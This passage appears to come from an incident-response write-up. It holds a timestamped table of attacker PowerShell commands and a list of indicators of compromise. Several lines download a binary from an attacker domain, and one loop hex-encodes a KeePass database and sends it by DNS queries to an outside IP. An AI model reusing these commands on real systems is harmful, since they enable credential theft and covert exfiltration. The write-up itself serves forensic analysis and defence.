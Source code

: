 | 2023-01-13 17:18:13.946269Z | Tool Execution | `.\sb.exe -group=user;pwd` |
| 2023-01-13 17:19:06.035992Z | File Discovery | `ls C:\Users\j.westcott\Documents\protected_data.kdbx;pwd` |
| 2023-01-13 17:22:53.558146Z | Recon | `ls AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState;pwd` |
| 2023-01-13 17:23:38.796891Z | Tool Download | `iwr http://files.bpakcaging.xyz/sq3.exe -outfile sq3.exe;pwd` |
| 2023-01-13 17:24:12.967200Z | Tool Execution | `.\sq3.exe AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\;pwd` |
| 2023-01-13 17:25:38.759011Z | Data Extraction | `.\Music\sq3.exe AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite "SELECT * from NOTE limit 100";pwd` |
| 2023-01-13 17:31:48.507719Z | File Access | `$file='protected_data.kdbx'; $destination = "167.71.211.113"; $bytes = [System.IO.File]::ReadAllBytes($file);;pwd` |
| 2023-01-13 17:32:15.105474Z | File Access | `$file='C:\Users\j.westcott\Documents\protected_data.kdbx'; $destination = "167.71.211.113"; $bytes = [System.IO.File]::ReadAllBytes($file);;pwd` |
| 2023-01-13 17:32:23.702462Z | Data Encoding | `$hex = ($bytes\|ForEach-Object ToString X2) -join '';;pwd` |
| 2023-01-13 17:32:41.384043Z | Data Exfiltration | `$split = $hex -split '(\S{50})'; ForEach ($line in $split) { nslookup -q=A "$line.bpakcaging.xyz" 167.71.211.113;} echo "Done";;pwd` |

---

## Indicators of Compromise (IOCs)

- **Domains / Hosts:**
  - `files.bpakcaging.xyz` - file hosting used to download binaries
  - `cdn.bpakcaging.xyz:8080` - C2 beaconing and command retrieval
  - `https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt.ps1` - recon binary downloaded

- **IPs:**
  - `167.71.211.113` - DNS server used for exfiltration / file host

- **Files:**
  - `seatbelt.exe` - C# enumeration tool
  - `sb.exe` - enumeration binary
  - `sq3.exe` - binary used to read sqlite files
  - `plum.sqlite` - Microsoft Sticky Notes DB accessed
  - `protected_data.kdbx` - exfiltrated KeePass DB
    - SHA256: `b5e4f249800d741ee62d57113d00deabd634136ee6378e51c2b75c166f1833f4`
  - `Invoice_20230103.lnk` - Spearphishing attachment
    - SHA256: `86d5e0589fbd8c90604da954197344801f0579de157510e13492db0c712a0cc8`

- **Email:**
  - `dump.eml` — Spearphishing email containing attachment with embedded Base64 payload (Refer to appendix)

- **Commands / processes:**
  - `iwr`
  - `iex`
  - `whoami`
  - `sb.exe` (various)
  - `sq3.exe`
  - `seatbelt.exe`
  - `nslookup`
  - `$split = $hex -split '(\S{50})'; ForEach ($line in $split) { nslookup -q=A "$line.bpakcaging.xyz" 167.71.211.113;} echo "Done"`
  - `$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{"X-38d2-8f49"=$i}`
